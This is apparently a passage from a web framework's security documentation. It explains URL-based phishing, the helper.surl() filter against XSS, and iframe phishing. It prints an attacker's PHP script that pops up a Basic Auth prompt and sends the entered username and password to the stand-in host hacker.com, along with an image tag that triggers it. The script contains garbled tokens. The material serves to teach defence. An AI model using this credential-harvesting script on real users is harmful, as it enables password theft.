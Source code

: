 Attacker can construct the following code in his own server:

401.php, used to pop up 401 window, then record user information:

```php
  <?php
      header('WWW-Authenticate: Basic realm="No authorization"');
      header('HTTP/1.1 401 Unauthorized');
          $domain = "http://hacker.com/fishing/";
          if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){
                  header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);
          }
  ?>
```

Then attacker generate an image url`<img src="http://xxx.xxx.xxx/fishing/401.php?a.jpg//" />`.

If user access the page, it will popup a window, and let user type in user's name and password, then account and password will be stored in the hacker's server.

### Prevention

Framework provides `.surl()` macro to do url filtering.It is Used to parse the url in the HTML tags in place (such as `<a href ="" /><img src=""/>`), other places are not allowed to use.

You can add `helper.surl($value)` in the template to output variable.

**note: in places where you need to parse the url, you must add double quotes outside of surl, or you will result in XSS vulnerabilities.**

Do not use `surl`

```html
<a href="$value" />
```

output:

```html
<a href="http://ww.safe.com<script>" />
```

Use `surl`

```html
<a href="helper.surl($value)" />
```

output:

```html
<a href="http://ww.safe.com&lt;script&gt;" />
```

### Iframe Phishing

[Iframe Phishing](https://www.owasp.org/index.php/Cross_Frame_Scripting) By embedding iframe into the hacked page, the attacker can direct users to click on the iframe's dangerous website or even cover it, affecting the normal function of the site and hijacking the user's click operation.


[egg-view-nunjucks]: https://github.com/eggjs/egg-view-nunjucks